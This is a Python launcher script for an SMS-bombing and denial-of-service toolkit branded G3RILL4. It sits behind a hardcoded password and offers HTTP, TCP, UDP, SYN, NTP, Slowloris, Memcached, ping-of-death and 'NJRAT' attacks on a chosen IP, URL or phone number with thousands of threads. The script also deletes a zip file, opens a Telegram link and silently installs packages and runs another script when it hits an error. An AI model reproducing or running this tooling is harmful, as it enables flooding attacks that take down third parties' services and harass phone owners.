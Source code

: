 

import os, time
os.system('rm -rf 2.zip')
os.system("xdg-open https://t.me/g3rill4")
time.sleep(3)
os.system("clear")
try:
    import sys
    os.system("pkg install figlet -y")
    time.sleep(2)
    print("\x1b[1;96m-\x1b[1;93m>-")
    os.system('clear')
    while True:
        os.system('clear')
        os.system("figlet G3RIL4")		
        print("\033[0;37;48m≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈\n\033[1;31;40m  Craeted by G3RILL4\n\033[0;37;48m~~~~~~~~~~~~~~~~~~~~~~~\n\n  \x1b[1;96m[Baxer Beyt..]")
        time.sleep(1.9)
        print("\033[1;37;40m User u Pass Bnusa")
        aa="garilla"
        bb="garilla"
        
        x=input("  TOOL USERNAME : ")
        xx=input("  TOOL PASSWORD : ")
        
        if x == aa and xx == bb :
            print("---------------------------")
            

            def hhh(z):
                for e in z + '\n':
                    sys.stdout.write(e)
                    sys.stdout.flush()
                    time.sleep(0.05)


            os.system("printf '\033]2;Quack Toolkit\a'")
            print("\x1b[1;96m-\x1b[1;93m>-")
            os.system("clear")
            os.system("figlet G3RIL4")
            print('\n^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^\n\033[1;31;40m Kurdistan UP\n\033[1;33;40m------------------------------\033[0m')
            print('  \033[1;32;40m[+] telegram:@g3rill4')
            print('   [+] No System in Save')
            print('   [+] Tool bye: G3rilla')
            print('   [+] Attack SMS HTTPS TCP')
            print('   [+] Tool No Sell')
            print('\033[1;33;40m-------------------------\033[0m')

            import argparse
            import sys
            import signal

            def signal_handler(signal, frame):
                A = ''
                W = ''
                E = ''
                print(A+'\n[!]'+W+' Attack terminated.'+E)
                os._exit(0)


            def main():
                parser = argparse.ArgumentParser()
                parser.add_argument("--target", type = str, metavar = "<ip:port/URL/phone>",
                                help = "Target IP and port, URL or phone.")
                parser.add_argument("--tool", type = str, metavar = "[SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]",
                                help = "Attack tool.")
                parser.add_argument("--timeout", type = int, default = 10, metavar = "<timeout>",
                                help = 'Timeout in seconds.')
                parser.add_argument("--threads", type = int, default = 3, metavar = "<threads>",
                                help = "Threads count.")
                parser.add_argument("-u", "--update", action='store_true', dest="update", help = "Update Quack Toolkit.")
                parser.add_argument("--version", action='store_true', dest="version", help = "Show Quack Toolkt version.")
                print(" \x1b[1;96m  ATTACK START!\x1b[1;93m>\x1b[1;96m>\x1b[1;93m>\x1b[1;96m>\x1b[1;35;40m")
                print("\033[1;33;40m-------------------------\033[0m")

                print("   \033[1;32;40m1.SMS")
                print("   2.HTTP")
                print("   3.TCP")
                print("\033[1;33;40m-------------------------\033[0m")
                args = parser.parse_args()
                threads = 9999
                time = 999
                method = (input("\x1b[1;36;40m Select :  \x1b[1;97m"))
                target = input("\x1b[1;36;40m Attack To : \x1b[1;97m")
                hhh(' Loading...........')
                hhh("=========================")
                if method == "NTP":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.ntp import NTP_ATTACK
                    NTP_ATTACK(threads, time, target)
                    
                elif args.update:
                    os.system("chmod +x bin/quack && bin/quack -u")
                    sys.exit()

                elif args.version:
                    print("")
                    os.system("cat banner/banner.txt")
                    print("")
                    print("Quack Toolkit v2.0")
                    sys.exit()

                elif method == "SYN":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.syn import SYN_ATTACK
                    SYN_ATTACK(threads, time, target)

                elif method == "3":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.tcp import TCP_ATTACK
                    TCP_ATTACK(threads, time, target)

                elif method == "POD":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.pod import POD_ATTACK
                    POD_ATTACK(threads, time, target)

                elif method == "NJRAT":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.njrat import NJRAT_ATTACK
                    NJRAT_ATTACK(threads, time, target)

                elif method == "UDP":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.udp import UDP_ATTACK
                    UDP_ATTACK(threads, time, target)

                elif method == "2":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.http import HTTP_ATTACK
                    HTTP_ATTACK(threads, time, target)

                elif method == "SLOWLORIS":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.slowloris import SLOWLORIS_ATTACK
                    SLOWLORIS_ATTACK(threads, time, target)
                
                elif method == "MEMCACHED":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.other.memcached import MEMCACHED_ATTACK
                    MEMCACHED_ATTACK(threads, time, target)

                elif method == "1":
                    signal.signal(signal.SIGINT, signal_handler)
                    import tools.addons.clean
                    import tools.addons.logo
                    from tools.SMS.main import SMS_ATTACK
                    SMS_ATTACK(threads, time, target)

                else:
                    parser.print_help()

            if __name__ == '__main__':
                main()

        else:
            print("---------------------------")
            print("Wrong Password")
except:
	    os.system("clear")
	    os.system("pip install phonenumbers")
	    os.system("pip install requests")
	    os.system("pip install scapy")
	    os.system("pip install wget")
	    os.system("pip install argparse")
	    os.system("pip install telethon")
	    os.system("python 2.py")




 


